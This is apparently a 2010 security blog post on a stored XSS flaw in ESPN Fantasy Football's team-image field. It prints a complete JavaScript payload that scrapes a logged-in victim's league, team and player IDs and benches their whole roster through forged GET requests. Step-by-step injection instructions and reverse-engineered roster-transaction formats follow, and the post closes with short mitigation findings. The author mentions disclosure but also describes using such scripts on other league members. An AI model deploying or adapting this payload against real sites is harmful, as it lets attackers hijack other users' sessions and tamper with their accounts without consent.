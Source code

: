 title: ESPN Fantasy Football - The Complete Attack
publish: True
categories: [hacking]

I have run an ESPN Fantasy Football League every year since the software was available and am a huge fan of the ESPN Fantasy Football experience. However, last year I came across a series of vulnerabilities in the FFB software which basically give an attacker full control of opponent, and other league, teams. Very few people know of the research I was conducting as I was beginning the disclosure process with ESPN.com's web developers. Today, to my complete surprise, I was made aware of these 2 articles:

<!-- READMORE -->

[http://www.theregister.co.uk/2010/09/22/espn_fantasy_football_cheating/](http://www.theregister.co.uk/2010/09/22/espn_fantasy_football_cheating/)  
[http://xs-sniper.com/blog/2010/09/22/put-me-in-coach/comment-page-1/](http://xs-sniper.com/blog/2010/09/22/put-me-in-coach/comment-page-1/)

While xssniper rightfully gets the credit for the discovery, as he was quicker to the trigger than I, he missed something in his research which greatly enhances this attack. There is a stored XSS vulnerability in the team image setting which allows an attacker to store a malicious script on the server and completely automates the roster attacks for anyone that is subjected to the team image. ESPN does validate the input by removing '&lt;' and '&gt;' from the input, but what it doesn't do is limit the length of the input. Therefore, you can write the script in its entirety and inject it into the input field. The code that I have developed as a POC also works across leagues. Come back soon as I will be posting screenshots and POC code when I can get back to my lab.

ENJOY!

UPDATE: Note to self, take screenshots prior to disclosure of vulnerabilities. In my own defense, I was caught completely off guard by the disclosure so...

[![](/static/images/posts/oops.png)](/static/images/posts/oops.png)

Since i'm limited in the amount of pictures I can show at this point, i'll do my best to explain the process.

### Discovery:

It all started at DEFCON 17. I had spent the majority of my time in the Web App Security track and really enjoyed the concepts of web application testing. As we all know, DEFCON is in late July / early August which was also about the time I typically set up my FFB league for the year. As I was editing my team settings, I saw that you could set a custom image in the form of a url. Since the image is then shown back to you on every page you visit within the league from that point forward, I figured there was some serious potential for a stored XSS attack there. Looking at the code, I noticed that all it did was take the url you submit, and throw it into the 'src' attribute of an image tag. In my first attempt to exploit, i filled the image tag with arbitrary data and appended a script tag to the closed image tag. To ESPN's credit, they actually validated the input and filtered out all '&lt;' and '&gt;'. Therefore, the script tag didn't work. I'd have to exploit via the image tag. Very easy. There are several events in an image that allows you to run javascript, 'onerror' and 'onload'. As you can see from my demo last year, I initially went with the 'onerror' event because I wanted to be completely obvious in testing. ESPN did not validate and filter out any javascript code, so the exploitation worked perfectly. For practical implementation, I went with the 'onload' event, loading an actual team image, and running the script upon a successful load. I had some fun with this over the season.

### Exploitation:

My favorite implementation was a script that prompted other players viewing my team if they were my opponent that week. If they clicked 'yes', then the script went through a series or random "trash talking" phrases. If they clicked 'no', then they were forward to my team page. Harmless really. As I began to look more into the FFB software, I began to notice the same parameter issues that xssniper pointed out in his blog. So a few months ago, I wrote a script which uses the stored XSS vulnerability to parse all of the required parameters from the visiting players browser and executes any series of evil things based upon those params. The code below first determines whether the visiting player is logged in or not. If they are logged in, it parses out the 'teamId', makes an AJAX call for their team page, parses out all of the 'playerId's, then loops through and benches every player using a dummy javascript image request. Basically, on gameday, when my opponent launches the scoreboard, their entire team is benched and they are unable to score any points. XSS FTW... literally!!!

``` javascript
function unique(a) {
  var r = new Array();
  o:for(var i = 0, n = a.length; i &lt; n; i++) {
    for(var x = 0, y = r.length; x &lt; y; x++) {
      if(r[x]==a[i]) {
        continue o;
      }
    }
    r[r.length] = a[i];
  }
  return r;
}
var pagesrc = document.documentElement.innerHTML;
var score_period;
var league_id;
var team_id;
var team_url;
var bench_url;
var player_ids = null;
var patt_pid = /(playerId=).([\d]+).\s/g;
var patt_tid = /([\d]+)/g;
var patt_spid = /currentScoringPeriodId:\s(\d+),/g;
var patt_lid = /leagueId:\s(\d+),/g;
if (pagesrc.search("My Fantasy Teams")!=-1) {
  //get currentScoringPeriodId
  score_period = patt_spid.exec(pagesrc);
  score_period = score_period[1];
  //get leagueId
  league_id = patt_lid.exec(pagesrc);
  league_id = league_id[1];
  //get teamId
  pagesrc = pagesrc.substr(pagesrc.indexOf("My Fantasy Teams"),400);
  team_id = pagesrc.substr(pagesrc.indexOf("teamId=")+7);
  team_id = patt_tid.exec(team_id);
  team_id = team_id[1];
  team_url = "http://games.espn.go.com/ffl/clubhouse?leagueId=" + league_id + "&amp;teamId=" + team_id + "&amp;seasonId=2010";
  var xmlhttp = new XMLHttpRequest();
  xmlhttp.open("GET", team_url, true);
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4) {
      pagesrc = xmlhttp.responseText;
      player_ids_clean = new Array();
      var i = 0;
      while (player_ids = patt_pid.exec(pagesrc)) {
        player_ids_clean[i] = player_ids[2];
        i += 1;
      }
      player_ids_clean = unique(player_ids_clean);
      for (i=0;i&lt;=15;i++) {
        bench_url = "http://games.espn.go.com/ffl/pnc/saveRoster?leagueId=" + league_id + "&amp;teamId=" + team_id + "&amp;scoringPeriodId=" + score_period + "&amp;returnSm=false&amp;trans=1_" + player_ids_clean[i] + "_0_20";
        img = new Image();
        img.src = bench_url;
      }
    }
  };
  xmlhttp.send(null);
}
```

Script usage:

1. Compress with [http://dean.edwards.name/packer/](http://dean.edwards.name/packer/)
2. Copy compressed code and paste into notepad
3. Use notpad to replace all " with '
4. Append result from notepad to `http://[image url]" onload="`

The script is seen as coming from espn, so same origin policy applies and the script is allowed to run. Also, NoScript doesn't help unless you are blocking globally which ruins the espn.com experience.

Other information I was able to discover:

transType table:

``` text
1=Move
2=Add
3=Drop
```

Position table:

``` text
0=QB
1=Not on Roster
2=RB1/2
3=RB/WR
4=WR1/2
5=TE
16=D
17=K
20=BENCH
```

ADD Player:

``` text
transType_playerId_?_?_startPos?_endPos
ex. 2_11390_-1_1001_1_20
```

MOVE Player:

``` text
transType_playerId_startPos_endPos
ex. 1_1753_0_20
```

DROP Player:

``` text
transType_playerId_teamId/scoringPeriod?_Position_?_?
ex. 3_1753_1_2_-1_1002
```

Bottom-line Findings and Mitigation:

1. Input box allows strings of any length for input. Bad idea. Limit input.
2. When done for real, there is a confirmation button which issues a POST. However, the server side function will accept a GET, which makes this attack much easier. If they accepted POST only, then we would have to use additional resources to create the attack. Much easier to leverage a session through GET than it is to pass authentication tokens via POST.
3. Some code validation is done, but not enough. May prevent referencing the script from another location, but since it is injectible through 'onerror' and 'onload', and input is unlimited, who cares.
